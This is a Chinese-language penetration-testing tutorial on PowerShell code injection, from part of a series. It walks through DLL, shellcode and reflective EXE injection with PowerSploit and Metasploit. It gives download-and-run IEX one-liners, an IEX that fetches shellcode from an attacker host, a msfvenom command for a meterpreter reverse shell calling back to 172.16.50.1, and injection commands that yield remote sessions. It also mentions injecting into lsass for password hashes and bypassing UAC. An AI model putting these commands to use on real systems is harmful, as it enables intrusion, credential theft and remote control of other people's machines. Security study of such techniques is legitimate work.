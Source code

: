 # powershell(9)-Dll注入&shellcode注入&exe注入

## 理解DLL
首先我们需要知道我们在启动一个程序的时候并没有把所有的需要用到的数据或者文件运行起来，而是只运行了关键部分，那么当我们需要调用到某一功能时再通过DLL来动态链接，不需要时就可以卸载，使得程序不显得臃肿。

## DLL注入是什么
DLL注入就是将代码插入/注入到正在运行的进程中的过程。我们注入的代码是动态链接库（DLL）的形式。为什么可以做到这一点？因为DLL（如UNIX中的共享库）是在运行时根据需要来进行加载。在这个项目中，我将只使用DLL，但是实际上还可以使用其他各种形式（任何PE文件、shellcode/assembly等）来“注入”代码，这些在恶意软件中非常常见。

当然你需要有对应的权限才能进行对某些进程的注入，一般来说，常用技术是注入“lsass.exe”进程以获取密码哈希值。恶意软件也广泛使用代码注入技术，例如，运行shellcode、运行PE文件或将DLL加载到另一个进程的内存中以隐藏自身，等等。

## DLL注入场景
我们来简单的分析一下我们可能遇到的场景：比如我们目前有一台Win2008的机器，目前有两个用户登陆到机器上分别用户A和B，比如我们A用户想看到B用户的桌面是不能实现的（WIndows中的Session隔离机制），我们想要进入到B用户桌面可以通过Dll注入到B用户的Explore进程下，拥有这个进程下的Token使用createremotethread创建线程，去打开桌面。这就是我们DLl注入的利用场景，但是需要注意的是我们只能从高权限往低权限切（好像是废话...），说到高往低权限切换，就简单的提一下UAC...

## UAC
简单来说，这就是个Windows的保护机制，直观感受就是当你打开某些程序的时候会有一个弹框让你确认是否给权限，就像这样
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/6.png)
那么绕过的方法也是有很多，那么大多都是通过下面3点来做的:

1. 使用wusa.exe
2. Dll劫持
3. IFileOperation-COM对象
具体细节大家可自行百度，这里只做提及，最后推荐注入explorer.exe这样的进程，只要操作系统在运行这个进程能稳定的让我们注入。

我们再来看看MSF提供的UAC绕过:
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/7.png)
用这些基本也就够了，那么还有其他大家可以去Github自行发现。

## Powershell-DLL注入

那么对于DLL注入技术不是我们的重点，我们主要是利用Powershell使用已有的工具进行DLL注入，那么Powersploit中的Invoke-DllInjection已经完成对于DLL注入的利用，我们先来看看利用的过程:

1. 利用IEX下载脚本
下载脚本通过下面的语句即可下载：`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1")`此时，代码已经被运行。

2. 通过MSF生成恶意DLL
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/1.png)
3. 通过Ps加载DLL完成利用
首先我们查看一个我们当前用户能注入的进程，我们选用explorer进程来进行注入
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/2.png)
下面是执行成功的结果
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/3.png)
最后我们可以看到msf返回一个会话：
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/4.png)

## Powershell-ShellCode注入

上面的DLL注入是比较主流的利用方式，但是我们还可以直接注入我们的shellcode进进程，同样也能在powersploit找到对于的代码:Invoke-Shellcode，我们先来看看利用过程：

1. 利用IEX下载脚本
`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1")`
2. 通过MSF生成恶意代码
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/5.png)
之后通过Web下载的方式来导入shellcode
`IEX(New-Object Net.WebClient).DownloadString("http://172.16.50.1/test")`
3. 通过Ps加载shellcode完成利用
执行代码`Invoke-Shellcode -Shellcode ($buf)`就可以执行代码了，但这样的方式是注入到当前的powershell进程，我们可以通过-processid参数指定我们要注入的进程，但同样需要注意的是用户是否有权限对对应的进程进行注入，`Invoke-Shellcode -Shellcode ($buf) -ProcessID 2344`，还有一点需要注意的是这个脚本是无法验证32位系统还是64位系统，所以需要大家自己去验证之后再进行注入。

## Powershell-EXE注入
下面介绍的这个脚本是我非常喜欢使用的脚本：[反射型PE或者Dll注入](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)，这个脚本能够直接注入我们的EXE文件当然Dll也可以，在我们实际的渗透测试过程中帮助非常大。


这里我们来简单操作一下这个过程:首先生成msf马`msfvenom -p windows/x64/meterpreter_reverse_tcp -e -i 3 LHOST=172.16.50.1 LPORT=2333 -f exe -o ~/shell.exe`之后再通过下面的注入

```powershell
$PEBytes = [IO.File]::ReadAllBytes('.\Desktop\powershell\shell.exe')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ForceASLR
```

![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/8.png)
可以看到我们这里有关于ASLR的警告，这个ASLR就是是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化。那么我们这里只需要加上-ForceASLR参数即可。

![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/dll/9.png)

可以看到我们直接就能得到这个会话。